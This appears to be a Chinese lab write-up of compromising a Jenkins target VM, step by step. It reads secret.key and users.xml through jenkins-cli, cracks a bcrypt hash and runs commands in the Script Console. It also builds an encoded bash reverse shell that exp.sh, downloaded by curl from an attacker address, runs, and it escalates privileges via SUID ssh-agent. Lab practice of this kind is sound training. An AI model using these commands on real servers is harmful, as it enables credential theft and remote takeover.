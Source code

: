 靶机地址：https://drive.google.com/file/d/1YD7fyJIjPCV3FtUfnK7UbxlMnUdrvA6X/view

。。。。。。。。。。。。。。信息收集部分省略

#### 敏感文件读取

用该漏洞可以直接使用官方提供的命令行客户端

```
wget http://ip:8080/jnlpJars/jenkins-cli.jar
```

使用该工具读取目标服务器的`/proc/self/environ`文件，可以找到Jenkins的基础目录，

`JENKINS_HOME=/var/jenkins_home`：

```bash
#使用该工具读取目标服务器的`/proc/self/environ`文件
java -jar jenkins-cli.jar -s http://IP:8080/ -http help 1 "@/proc/self/environ"
```



![image-20240718161208382](./imgs/image-20240718161208382.png)

然后，可在该目录下读取敏感文件，如`secrets.key` or `master.key`（匿名情况下，只能通过命令行的报错读取文件的第一行）：

```bash
java -jar jenkins-cli.jar -s http://IP:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```



![image-20240718161352172](./imgs/image-20240718161352172.png)

因为开启了“匿名用户可读”选项，你也可以直接使用`connect-node`命令读取完整文件内容：

![image-20240718161955203](./imgs/image-20240718161955203.png)



#### 提取密码哈希

Jenkins 安装将有一个文件，其中列出了此处的所有有效用户。

- `/var/jenkins_home/users/users.xml`

使用 connect-node 命令读取此文件，如下所示

```bash
java -jar jenkins-cli.jar -s http://10.10.10.10:8080 connect-node "@/var/jenkins_home/users/users.xml"
```

![image-20240718163131503](./imgs/image-20240718163131503.png)

> users.xml`显示系统上的单个用户，`kyle_reese`，其文件夹为 `/var/jenkins_home/users/kylereese_12022439290147957862

在 Jenkins 上的每个用户文件夹中，始终有一个包含用户密码哈希的`config.xml`文件。读取文件夹中的`config.xml`

```bash
java -jar jenkins-cli.jar -s http://10.10.10.10:8080 connect-node "@/var/jenkins_home/users/kylereese_12022439290147957862/config.xml"
```

![image-20240718163436362](./imgs/image-20240718163436362.png)

复制找到的密码哈希并将其粘贴到 Kali 上名为 hash.txt 的文件中。

`pico hash.txt`

```bash
$2a$10$GqneLZhOq6hRpCXeXF07tuAN..Q8GKDv5zad/HfcpNpL8GJUNNdDO
```

> 1.按下 Ctrl + O：这将会触发保存文件的操作。
> 2.按下 Enter：确认文件名。
> 3.按下 Ctrl + X：这将会退出 pico 编辑器。

![image-20240718163651902](./imgs/image-20240718163651902.png)

#### hash破解

![image-20240718164231396](./imgs/image-20240718164231396.png)

```bash
hashcat -m 3200 hashes.txt rockyou.txt
```

获得密码后，登录 Jenkins Web 界面：

- 账号：`kyle_reese`
- 密码：`mastermind`

#### 后台命令执行，反弹shell

![image-20240718164347944](./imgs/image-20240718164347944.png)

![image-20240718164407048](./imgs/image-20240718164407048.png)

Jenkins 脚本控制台在[官方用户手册](https://www.jenkins.io/doc/book/managing/script-console/)中可以看到可以进行命令执行

![image-20240718164526292](./imgs/image-20240718164526292.png)

```bash
println "cat /etc/passwd".execute().text
```

![image-20240718164602023](./imgs/image-20240718164602023.png)

反弹shell

```bash
bash -i >& /dev/tcp/10.10.10.3/6789 0>&1

进行ba64编码

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4zLzY3ODkgMD4mMQ==
```

kali创建exp.sh，将下面内容复制到里面

```bash
echo -n "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4zLzY3ODkgMD4mMQ==1" |base64 -d | /bin/bash
```

![image-20240718165342515](./imgs/image-20240718165342515.png)

开启web服务`php -S 0:80 `



然后jenkins网站后台执行命令

```bash
println "curl http://10.10.10.3/exp.sh -o /tmp/exp.sh".execute().text
```



日志输出中看到 Web 服务器收到了状态代码为 200 的点击

![image-20240718165509180](./imgs/image-20240718165509180.png)

给Shell权限，确保文件在目标服务器上可执行

![image-20240718165635264](./imgs/image-20240718165635264.png)

直接运行Shell，NC传回反应

![image-20240718165747422](./imgs/image-20240718165747422.png)

#### suid提权

查看suid权限有哪些

```bash
find / -perm -4000 2>/dev/null
```

![image-20240718165940019](./imgs/image-20240718165940019.png)

在[gtfobins](https://gtfobins.github.io/gtfobins/ssh-agent/)查看提权方式

![image-20240718170109428](./imgs/image-20240718170109428.png)

```bash
ssh-agent /bin/bash -p
```



![image-20240718170142342](./imgs/image-20240718170142342.png)